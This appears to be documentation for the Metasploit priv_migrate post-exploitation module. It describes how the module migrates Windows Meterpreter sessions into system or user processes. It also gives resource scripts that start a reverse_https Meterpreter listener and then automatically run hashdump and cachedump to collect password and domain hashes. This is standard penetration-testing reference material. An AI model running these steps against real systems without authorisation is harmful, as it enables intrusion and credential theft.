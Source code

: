 ## Overview
This module evaluates a Windows Meterpreter session's privileges and migrates the session accordingly. The purpose of this module is to enable the scripting of migrations post exploitation, which allows you to immediately run post modules that require system rights.  

You can use this module in situations where incoming sessions may have mixed rights levels and the session needs to be migrated appropriately for additional post modules to run. It is also useful in situations where migration needs to occur within a short period after the session is created. 

The types of migrations that occur are described below: 

- A session with admin rights is migrated to a system owned process. 
- A session with user rights is migrated to a user level process. If a specified user level process is not running, the module will spawn it and then migrate the session. 

This module is a nice addition to the beginning of an autorun script for post-Meterpreter session creation. An example of an autorun script is provided below.

## Module Options
- **ANAME** - This option allows you to specify a system level process that the module attempts to migrate to first if the session has admin rights. 
- **NAME** - This option allows you to specify the user level process that the module attempts to migrate to first if the session has user rights or if admin migration fails through all of the default processes.  
- **KILL** - This option allows you to kill the original process after a successful migration. The default value is FALSE.
- **NOFAIL** - This option allows you to specify whether or not the module will migrate the session into a user level process if admin level migration fails. If TRUE, this may downgrade priviliged shells. The default value is FALSE.

## Module Process
Here is the process that the module follows:

- Retrieves the privilege information for the current session.
- If the session has admin rights, it attempts to migrate to a system owned process in the following order:
    - ANAME (Module option, if specified)
    - services.exe
    - wininit.exe
    - svchost.exe
    - lsm.exe
    - lsass.exe
    - winlogon.exe
- The module will not migrate if the session has System rights and is already in one of the above target processes.
- If it is unable to migrate to one of these processes, it drops to user level migration if NOFAIL is TRUE.
- If the session has user rights, it attempts to migrate to a user owned process in the following order:  
    - NAME (Module option, if specified)
    - explorer.exe
    - notepad.exe
- If it cannot migrate, it attempts to spawn the process and migrates to the newly spawned process.

## Using This Module with AutoRun Scripts
The use of autorun scripts with this module is an easy way to automate post-exploitation for incoming Meterpreter sessions. The following section describes the basic setup information and provides a script example to show how this module comes in handy.

### Basic Setup Information
Resource file (.rc) scripts can be used to automate many processes in Metasploit, particularly starting up the  console and running scripts once a session is created.

Startup scripts are executed using the following example where startup.rc is the startup script, and it is located in the user's home directory. Startup scripts are executed once the Metasploit Framework is loaded.

```
./msfconsole -r /home/user/startup.rc
```

The following is an example startup script that fires up a Meterpreter listener and specifies an autorun script that will be executed when a new session is created. In this example auto.rc is the script to be run after session creation.

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.1.101
set LPORT 13002
set ExitOnSession false
set AutoRunScript multi_console_command -rc /home/user/auto.rc
exploit -j
```

### AutoRun Script Example
This example is a script that will use priv_migrate to migrate the session based on session rights. After migration, it executes modules that will retrieve user password hashes and cached domain hashes. Each one of the hash dump modules requires system rights to be successful. Priv_migrate makes it possible to execute these modules in an autorun script. For sessions with user rights, the hash dump modules will fail, but that is unlikely to impact the state of the session.

```
run post/windows/manage/priv_migrate
run post/windows/gather/hashdump
run post/windows/gather/cachedump
```
